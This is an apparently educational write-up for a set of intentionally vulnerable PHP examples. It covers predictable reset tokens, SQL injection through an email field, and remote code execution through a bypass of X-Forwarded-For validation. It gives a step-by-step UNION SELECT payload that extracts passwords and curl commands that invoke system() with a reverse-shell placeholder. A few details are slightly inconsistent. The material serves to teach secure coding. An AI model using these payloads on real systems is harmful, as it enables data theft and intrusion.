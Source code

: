 # Contents

- [WeakCryptography.php](#weakcryptographyphp)
- [SQLInjection.php](#sqlinjectionphp)
- [HeaderInjection.php](#headerinjectionphp)

&nbsp;

## [WeakCryptography.php](../../examples/insecure/php/WeakCryptography.php)

Path: `/examples/insecure/php/WeakCryptography.php`

### Explanation

At first glance, you might expect a classic SQL Injection vulnerability, but there is no SQLi on line 8. However, if you examine line 27, you will notice a vulnerability where the server-generated token can be predicted. This involves the `changePassword` and `generatePasswordResetToken` functions. These functions are responsible for generating tokens, but they fail to use a cryptographically secure pseudorandom number generator (CSPRNG).

For secure token generation, it is essential to use a cryptographically secure random generator. If the server generates a token at time T, it must use a secure method to ensure the token cannot be predicted.

The server's time can be retrieved via a simple curl request, such as:
```bash
curl https://example.com/ --head
```
While the server's time and the local time obtained with the `date` command are not necessarily synchronized, the server's time can still be a critical factor for an attacker.

### Attack Vector
Suppose you are targeting a specific user, e.g., `victim@gmail.com`. To exploit this vulnerability, you can force the system to generate a token for that user (e.g., via email or SMS). By analyzing the server's behavior and predicting the generated token, you may potentially bypass authentication or perform other malicious actions.

### Note
The use of MD5 alone does not inherently make a system insecure.

&nbsp;


## [SQLInjection.php](../../examples/insecure/php/SQLInjection.php)

Path: `/examples/insecure/php/SQLInjection.php`

### Explanation

In this example, the vulnerability lies in line 8, where the `mail` variable is directly used in the SQL query on line 19 without proper sanitization or validation. The goal is to craft a payload to bypass PHP validators and execute an SQL injection.

### How to Construct a Payload?

To exploit the SQLi vulnerability, you need to use a single quote (`'`) as seen on line 19. However, line 10 does not properly validate the presence of single quotes in the email input, meaning you can include single quotes in the email address.

#### Step-by-Step Payload Construction:

1. **Start with a Valid Email**  
   A valid email is required as a base. For example:  
    - test@test.com

2. **Insert a Single Quote**  
A single quote cannot be placed after the `@` symbol because it is invalid in the domain part of an email address. However, it can be placed before the `@`:  

    - 'test@test.com

3. **Comment Out the Remaining Query**  
To prevent syntax errors, the remaining part of the query needs to be commented out. This can be achieved with `--`:  
    - 'test--@test.com

4. **Construct the Exploit**  
Use `UNION SELECT` to retrieve data, replacing spaces with `/**/` for better compatibility. For example:  
    - '/** /UNION/** /SELECT/** /table_name/** /FROM/** /information_schema.tables/** /test--@test.com

5. **Refine the Payload**  
After discovering the table and column names, construct the final payload to extract data:  

    ### Final Query:
    The final SQL query executed by the server becomes:
    ```sql
    SELECT username FROM users WHERE email=''/**/UNION/**/SELECT/**/password/**/FROM/**/users/**/--'@test.com' LIMIT 1
    ```
This query retrieves the password column from the users table by exploiting the SQL injection vulnerability.

&nbsp;

## [HeaderInjection.php](../../examples/insecure/php/HeaderInjection.php)

Path: `/examples/insecure/php/HeaderInjection.php`

### Explanation

In applications behind load balancers, developers often rely on the `X-Forwarded-For` header to determine the real IP address of the client since the TCP source address typically points to the load balancer itself. However, improper validation or misconfigurations can lead to security vulnerabilities.

- **Issue on Line 9**:  
  The validation applied to the header value is insufficient. Specifically, `X-Forwarded-For` values are not properly sanitized or validated.

- **Issue on Line 15**:  
  The developer forgot to use `exit()` or `die()` after printing an error message. As a result, the interpreter continues execution, eventually reaching the vulnerable `call_user_func` function on Line 19.

#### Exploit:

By crafting a malicious payload, you can bypass the validation and achieve remote code execution via the `call_user_func` method. 

Payload example: 

```bash
curl -H "X-Forwarded-For:127::1" "http://target.com/?cmd=system&arg=netcatreverseshell"

curl -H "X-Forwarded-For:127::1" "http://target.com/?cmd=exec&arg='command_here'"
``` 

1. On Line 9, the payload bypasses weak validation checks for X-Forwarded-For. The payload constructed with oketet syntax for better compatibility.
2. Since no exit() is called on Line 13, execution flows to Line 19.
3. `call_user_func` executes the function specified in the cmd query parameter (system) with the argument arg.

&nbsp;
